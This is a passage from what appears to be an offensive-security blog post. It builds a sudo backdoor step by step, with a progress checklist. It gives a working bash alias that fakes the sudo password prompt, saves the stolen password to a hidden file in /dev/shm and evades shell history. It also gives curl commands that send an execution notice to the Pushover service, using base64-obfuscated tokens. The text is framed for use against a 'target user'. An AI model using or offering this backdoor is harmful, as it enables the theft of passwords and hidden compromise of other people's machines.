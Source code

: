 - [x] Pick a good, hidden, place to write the stolen password
- [ ] Ensure that the backdoor doesn't log itself in shell history
- [ ] Have it notify me upon execution
- [ ] Ensure that the backdoor cleans up after itself

### Don't log the backdoor execution
You honestly can't prevent the execution of the backdoor itself being seen if command execution is being shipped off to a central location (like if there's an EDR on the box), but you can make it harder for the target user to realize that they've been pwned after the fact.

This is an easy fix, as we can simply unset the user's `HISTFILE` environment variable. We'll prepend that to our backdoor command:


```bash
alias sudo='HISTFILE="" echo -n "[sudo] password for $USER: ";stty -echo;read passwd;stty echo;echo;echo $passwd|tee -a /dev/shm/.dW5kM3JmMTB3X3dhc19oZXJlCg|sudo -S -p ""'
```

- [x] Pick a good, hidden, place to write the stolen password
- [x] Ensure that the backdoor doesn't log itself in shell history
- [ ] Have it notify me upon execution
- [ ] Ensure that the backdoor cleans up after itself

### Notify On Execution
For notifications, I've always been a huge fan of [Pushover](https://pushover.net). I can control the content of what's being sent to it, and if the target machine can reach the internet, they usually can reach the Pushover endpoint. Best of all, you can formulate a simple `curl` command and have it send.

My only personal gripe with it is that I have to include the credentials, but it's not that big of a deal since they are provisioned on a per application basis. I can simply revoke them after.

A sample `curl` command for pushover might look like: 

```bash
curl -s -F "priority=1" \
  -F "token=your_app_token" \ 
  -F "user=your_user_token" \
  -F "message=Hello World" \ 
  https://api.pushover.net/1/messages
```

Neato, but again, I don't like exposing my token in plain text. Does encoding protect it? No. Does it make me feel like I'm doing something useful? Yes.

Using variable and command substitution in bash (`$()`), we can start to have a bit of fun. If I base64 my token value (`your_app_token`), it becomes `eW91cl9hcHBfdG9rZW4K`.

We can embed this in the middle of our command and ensure that any errors that are written are silenced by doing `2>/dev/null`.

So our command now becomes something like:

```bash
curl -s -F "priority=1" \
  -F "token=$(echo eW91cl9hcHBfdG9rZW4K | base64 -d 2>/dev/null)" \ 
  -F "user=$(echo eW91cl91c2VyX3Rva2VuCg | base64 -d 2>/dev/null)" \
  -F "message=$(echo SGVsbG8gV29ybGQK | base64 -d 2>/dev/null)" \
  https://api.pushover.net/1/messages
```
